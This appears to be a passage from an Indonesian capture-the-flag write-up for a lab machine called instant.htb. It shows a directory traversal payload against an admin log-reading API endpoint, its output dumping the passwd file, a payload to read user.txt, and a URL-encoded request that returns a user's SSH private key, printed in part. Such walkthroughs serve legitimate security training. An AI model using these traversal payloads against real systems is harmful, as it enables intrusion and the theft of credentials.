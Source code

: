 ```
    "irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\n",
    "_apt:x:42:65534::/nonexistent:/usr/sbin/nologin\n",
    "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n",
    "systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin\n",
    "systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin\n",
    "dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false\n",
    "messagebus:x:101:102::/nonexistent:/usr/sbin/nologin\n",
    "systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin\n",
    "pollinate:x:102:1::/var/cache/pollinate:/bin/false\n",
    "polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin\n",
    "usbmux:x:103:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin\n",
    "sshd:x:104:65534::/run/sshd:/usr/sbin/nologin\n",
    "shirohige:x:1001:1002:White Beard:/home/shirohige:/bin/bash\n",
    "_laurel:x:999:990::/var/log/laurel:/bin/false\n"
  ],
  "Status": 201
}

```
dapat dilihat kita mendapatkan ==directory traveral== , dan diketahui terdapat 2 user yaitu user ==root== dan ==shirohige==
coba ganti payload menjadi `/../../../home/shirohige/user.txt` -> dapat **==user.txt==**

3. /.ssh/id_rsa , Coba akses ssh private key 
```
http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=%2F..%2F..%2F..%2Fhome%2Fshirohige%2F.ssh%2Fid_rsa

---

{
  "/home/shirohige/logs//../../../home/shirohige/.ssh/id_rsa": [
    "-----BEGIN OPENSSH PRIVATE KEY-----\n",
    "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\n",
```